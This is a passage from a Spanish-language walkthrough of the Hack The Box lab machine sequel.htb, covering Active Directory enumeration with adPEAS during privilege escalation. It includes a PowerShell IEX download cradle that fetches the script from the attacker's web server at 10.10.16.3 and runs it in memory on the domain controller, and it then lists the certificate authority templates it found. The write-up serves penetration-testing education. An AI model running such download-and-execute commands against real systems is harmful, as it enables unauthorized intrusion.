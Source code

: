 
## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Realizaremos una enumeración del AD a través de la herramienta `adPEAS.ps1` que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos descargaremos el script en nuestro equipo y lo compartiremos a través de un servidor web.

```bash
❯ wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
--2025-02-20 08:22:11--  https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3493853 (3,3M) [text/plain]
Grabando a: «adPEAS.ps1»

adPEAS.ps1                                                100%[==================================================================================================================================>]   3,33M  --.-KB/s    en 0,1s    

2025-02-20 08:22:12 (30,2 MB/s) - «adPEAS.ps1» guardado [3493853/3493853]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el `DC` importaremos en memoria a través de `IEX` el script de `adPEAS.ps1` que estamos compartiendo. Una vez lo dispongamos en memoria, ejecutaremos el `Invoke-adPEAS`.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> IEX (New-Object Net.WebClient).downloadString("http://10.10.16.3/adPEAS.ps1")
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> Invoke-adPEAS
```

En el resultado obtenido, encontramos un servicio de **Active Directory Certificate Services (AD CS)** en el dominio.

* **Nombre de la CA:** `sequel-DC-CA`
* **Hostname:** `dc.sequel.htb`
* **IP:** `10.10.11.202`
* **Fecha de Creación:** `18/11/2022`
* **NTAuthCertificates:** `True`
* **Plantillas disponibles:**
  * UserAuthentication
  * DirectoryEmailReplication
  * DomainControllerAuthentication
  * KerberosAuthentication
  * EFSRecovery
  * EFS
  * DomainController
  * WebServer
  * Machine
  * User
  * SubCA
  * Administrator
